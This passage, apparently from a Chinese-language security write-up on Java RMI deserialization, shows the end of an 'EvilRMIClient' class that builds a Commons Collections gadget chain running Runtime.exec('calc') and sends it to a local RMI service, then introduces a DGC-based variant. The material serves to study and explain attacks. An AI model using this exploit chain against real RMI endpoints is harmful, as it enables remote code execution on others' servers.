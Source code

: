 ```java
                        new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class}, new Object[]{"calc"})
        });

        LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap(), chainedTransformer);

        Constructor annotationInvocationHandler =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").
                        getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationHandler.setAccessible(true);
        InvocationHandler annoHandler = (InvocationHandler) annotationInvocationHandler.
                newInstance(Override.class, lazyMap);

        Map map = (Map) Proxy.
                newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, annoHandler);

        InvocationHandler anotherHandler = (InvocationHandler) annotationInvocationHandler.
                newInstance(Override.class, map);

        return anotherHandler;
    }

    public void callRemote(String name) throws RemoteException, NotBoundException, ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException, NoSuchMethodException {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 9099);
        RemoteService rs = (RemoteService) registry.lookup(name);
        rs.doSome(create());
    }

    public static void main(String[] args) {
        try {
            EvilRMIClient rc = new EvilRMIClient();

            rc.callRemote("server");
        } catch (Exception ex) {
            ex.printStackTrace();
        }
    }
}
```
结果如下
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22838900/1662543200341-b027c845-522b-45c7-851e-24abb59a3149.png#clientId=u468b1646-ec96-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=629&id=u0d2de8d3&margin=%5Bobject%20Object%5D&name=image.png&originHeight=629&originWidth=1234&originalType=binary&ratio=1&rotation=0&showTitle=false&size=112781&status=done&style=shadow&taskId=u7b9389d6-e209-4c9d-b695-9e694d660e9&title=&width=1234)
在前面有提到`DGC`中也存在`readObject`()的调用，也就是在`DGCImpl_Skel#dispatch`中。
为了攻击该目标，首先需要知道服务端的地址和端口，下面的利用代码是假定已知`Registry`和`Server`绑定的名称的情况下。整个攻击过程分为两步
